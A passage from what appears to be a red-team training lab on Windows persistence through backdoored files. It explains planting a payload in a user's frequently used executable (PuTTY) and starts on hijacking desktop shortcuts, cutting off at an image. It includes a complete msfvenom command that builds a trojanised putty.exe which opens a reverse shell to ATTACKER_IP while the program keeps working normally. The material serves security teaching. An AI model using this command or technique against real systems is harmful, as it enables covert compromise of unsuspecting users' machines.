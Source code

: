 ## Task 3 - Backdooring Files

Another method of establishing persistence consists of tampering with some files we know the user interacts with regularly. By performing some modifications to such files, we can plant backdoors that will get executed whenever the user accesses them. Since we don't want to create any alerts that could blow our cover, the files we alter must keep working for the user as expected.

While there are many opportunities to plant backdoors, we will check the most commonly used ones.

### Executable Files

If you find any executable laying around the desktop, the chances are high that the user might use it frequently. Suppose we find a shortcut to PuTTY lying around. If we checked the shortcut's properties, we could see that it (usually) points to `C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

You can easily plant a payload of your preference in any .exe file with `msfvenom`. The binary will still work as usual but execute an additional payload silently by adding an extra thread in your binary. To create a backdoored putty.exe, we can use the following command:

```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. While this method is good enough to establish persistence, let's look at other sneakier techniques.

### Shortcut Files

If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute the usual program normally.

For this task, let's check the shortcut to **calc** on the Administrator's desktop. If we right-click it and go to properties, we'll see where it is pointing:

![task3-calc](./images/task3-calc.png)